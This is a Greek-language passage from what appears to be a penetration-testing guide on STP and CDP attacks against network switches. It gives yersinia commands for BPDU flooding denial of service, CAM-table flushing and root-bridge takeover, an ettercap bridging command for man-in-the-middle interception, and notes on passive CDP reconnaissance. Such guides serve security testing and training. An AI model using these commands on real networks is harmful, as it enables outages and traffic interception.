 ### Επιθέσεις STP

**Εάν δεν μπορείτε να καταγράψετε πλαίσια BPDU στις διεπαφές σας, είναι απίθανο να επιτύχετε μια επίθεση STP.**

#### **STP BPDU DoS**

Αποστέλλοντας πολλά πλαίσια BPDUs TCP (Topology Change Notification) ή Conf (τα BPDUs που αποστέλλονται όταν δημιουργείται η τοπολογία), τα switch υπερφορτώνονται και σταματούν να λειτουργούν σωστά.
```bash
yersinia stp -attack 2
yersinia stp -attack 3
#Use -M to disable MAC spoofing
```
#### **Επίθεση STP TCP**

Όταν στέλνεται ένα TCP, ο πίνακας CAM των switch θα διαγραφεί σε 15 δευτερόλεπτα. Στη συνέχεια, εάν στέλνετε συνεχώς αυτού του είδους πακέτα, ο πίνακας CAM θα επανεκκινείται συνεχώς (κάθε 15 δευτερόλεπτα) και όταν επανεκκινείται, το switch συμπεριφέρεται ως hub.
```bash
yersinia stp -attack 1 #Will send 1 TCP packet and the switch should restore the CAM in 15 seconds
yersinia stp -attack 0 #Will send 1 CONF packet, nothing else will happen
```
#### **Επίθεση STP Root**

Ο επιτιθέμενος προσομοιώνει τη συμπεριφορά ενός switch για να γίνει ο STP root του δικτύου. Έτσι, περνά περισσότερα δεδομένα μέσω του. Αυτό είναι ενδιαφέρον όταν είστε συνδεδεμένοι σε δύο διαφορετικούς switch.\
Αυτό επιτυγχάνεται αποστέλλοντας πακέτα BPDUs CONF που δηλώνουν ότι η τιμή του **προτεραιότητας (priority)** είναι μικρότερη από την πραγματική προτεραιότητα του πραγματικού root switch.
```bash
yersinia stp -attack 4 #Behaves like the root switch
yersinia stp -attack 5 #This will make the device behaves as a switch but will not be root
```
**Εάν ο επιτιθέμενος είναι συνδεδεμένος σε 2 διακόπτες, μπορεί να γίνει ο ρίζανος του νέου δέντρου και όλη η κίνηση μεταξύ αυτών των διακοπτών θα περάσει από αυτόν** (θα πραγματοποιηθεί μια επίθεση MITM).
```bash
yersinia stp -attack 6 #This will cause a DoS as the layer 2 packets wont be forwarded. You can use Ettercap to forward those packets "Sniff" --> "Bridged sniffing"
ettercap -T -i eth1 -B eth2 -q #Set a bridge between 2 interfaces to forwardpackages
```
### Επιθέσεις CDP

Το Cisco Discovery Protocol (CDP) είναι απαραίτητο για την επικοινωνία μεταξύ συσκευών CISCO, επιτρέποντάς τους να **αναγνωρίζουν ο ένας τον άλλο και να μοιράζονται λεπτομέρειες ρύθμισης**.

#### Παθητική Συλλογή Δεδομένων <a href="#0e0f" id="0e0f"></a>

Το CDP έχει ρυθμιστεί να μεταδίδει πληροφορίες μέσω όλων των θυρών, πράγμα που μπορεί να αποτελέσει κίνδυνο για την ασφάλεια. Ένας επιτιθέμενος, συνδέοντας σε μια θύρα του switch, μπορεί να χρησιμοποιήσει εργαλεία καταγραφής δικτύου όπως το **Wireshark**, το **tcpdump** ή το **Yersinia**. Με αυτήν την ενέργεια, μπορεί να αποκαλύψει ευαίσθητα δεδομένα για τη συσκευή δικτύου, συμπεριλαμβανομένου του μοντέλου της και της έκδοσης του Cisco IOS που χρησιμοποιεί. Έπειτα, ο επιτιθέμενος μπορεί να επιτεθεί σε συγκεκριμένες ευπάθειες της εντοπισμένης έκδοσης του Cisco IOS.

